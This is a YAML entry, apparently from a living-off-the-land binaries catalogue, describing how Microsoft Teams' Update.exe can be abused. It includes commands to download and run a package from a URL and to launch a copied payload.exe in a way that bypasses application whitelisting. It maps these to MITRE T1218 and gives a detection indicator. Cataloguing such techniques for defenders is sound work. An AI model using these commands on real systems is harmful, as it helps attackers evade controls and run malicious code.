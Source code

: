 ```yaml
---
Name: Update.exe
Description: Binary to update the existing installed Nuget/squirrel package
Author: 'Oddvar Moe'
Created: '2019-06-26'
Commands:
  - Command: Update.exe --download [url to package]
    Description: The above binary will go that particular location and look for RELEASES file and download the nuget package.
    Usecase: Download and execute binary
    Category: Execute
    Privileges: User
    MitreID: T1218 
    MitreLink: https://attack.mitre.org/techniques/T1218/
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
  - Command: Update.exe --download [url to package]
    Description: The above binary will go that particular location and look for RELEASES file and download the nuget package.
    Usecase: Download and execute binary
    Category: AWL Bypass
    Privileges: User
    MitreID: T1218
    MitreLink: https://attack.mitre.org/techniques/T1218/
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
  - Command: Update.exe --download [url to package]
    Description: The above binary will go that particular location and look for RELEASES file and download the nuget package.
    Usecase: Download and execute binary
    Category: Download
    Privileges: User
    MitreID: T1218
    MitreLink: https://attack.mitre.org/techniques/T1218/
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
  - Command: Update.exe --processStart payload.exe --process-start-args "whatever args"
    Description: Copy your payload into %userprofile%\AppData\Local\Microsoft\Teams\current\. Then run the command. Update.exe will execute the file you copied.
    Usecase: Application Whitelisting Bypass
    Category: AWL Bypass
    Privileges: User
    MitreID: T1218
    MitreLink: https://attack.mitre.org/wiki/Technique/T1218
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
  - Command: Update.exe --processStart payload.exe --process-start-args "whatever args"
    Description: Copy your payload into %userprofile%\AppData\Local\Microsoft\Teams\current\. Then run the command. Update.exe will execute the file you copied.
    Usecase: Execute binary
    Category: Execute
    Privileges: User
    MitreID: T1218
    MitreLink: https://attack.mitre.org/wiki/Technique/T1218
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
Full_Path:
  - Path: '%localappdata%\Microsoft\Teams\update.exe'
Code_Sample: 
  - Code: https://github.com/jreegun/POC-s/tree/master/nuget-squirrel
Detection: 
  - IOC: Update.exe spawned an unknown process
Resources:
  - Link: https://www.youtube.com/watch?v=rOP3hnkj7ls
  - Link: https://twitter.com/reegun21/status/1144182772623269889
  - Link: https://twitter.com/MrUn1k0d3r/status/1143928885211537408
  - Link: http://www.hexacorn.com/blog/2018/08/16/squirrel-as-a-lolbin/
Acknowledgement:
  - Person: Reegun J (OCBC Bank)
    Handle: '@reegun21'
  - Person: Mr.Un1k0d3r
    Handle: '@MrUn1k0d3r'
  - Person: Adam
    Handle: '@Hexacorn'
---
```

